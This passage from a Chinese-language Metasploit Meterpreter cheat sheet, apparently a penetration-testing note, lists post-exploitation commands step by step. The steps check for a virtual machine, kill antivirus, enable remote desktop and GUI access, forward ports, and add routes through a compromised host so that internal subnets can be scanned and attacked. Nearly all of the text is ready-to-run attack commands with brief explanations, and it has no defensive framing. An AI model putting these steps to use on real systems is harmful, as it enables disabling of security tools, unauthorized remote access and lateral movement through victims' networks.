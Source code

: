 ### 3：查看目标机是否运行在虚拟机上
指令：run post/windows/gather/checkvm

### 4：查看当前主机用户名及其权限
指令：getuid

### 5：关闭杀毒软件
指令：run post/windows/manage/killav

### 6：启动目标主机的3389端口即远程桌面协议
①指令：run post/windows/manage/enable_rdp

②指令：run getgui -e

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1595418209658-99024fbb-091f-4867-80a7-d49181941381.png)

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1595418215828-764c4499-5fd9-4c51-8081-899c62a24647.png)

### 7：将当前会话放到后台
指令：background

### 8：端口转发
指令：portfwd add -l 6666 -p 3389 -r 127.0.0.1 #将目标机的3389端口转发到本地6666端口

指令：run getgui -f 6661 –e

实现效果如图：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1595418221945-ec8e97d6-44dc-47ac-a3ab-34acade7cec4.png)

### 9：路由route操作
①：查看已拿下的目标主机的内网IP段情况

指令：run get_local_subnets

②：添加路由（先使用background将meterpreter终端放到后台）

指令1：

+ route add <要添加的路由> 例：route add 192.168.111.0
+ route print （查看已添加的路由）

指令2：

+ run autoroute -s 192.168.159.0/24 #添加到目标环境网络
+ run autoroute –p #查看添加的路由

当目的路由被成功添加到已攻陷主机的路由表中，就可以借助被攻陷的主机对其他网络进行攻击了。

添加路由后可以进行以被攻陷主机的ip扫描该网段下的其他主机

+ run post/windows/gather/arp_scanner RHOSTS=192.168.159.0/24
+ run auxiliary/scanner/portscan/tcp RHOSTS=192.168.159.144 PORTS=338
+ route print：显示当前活跃的路由设置，查看路由是否添加成功
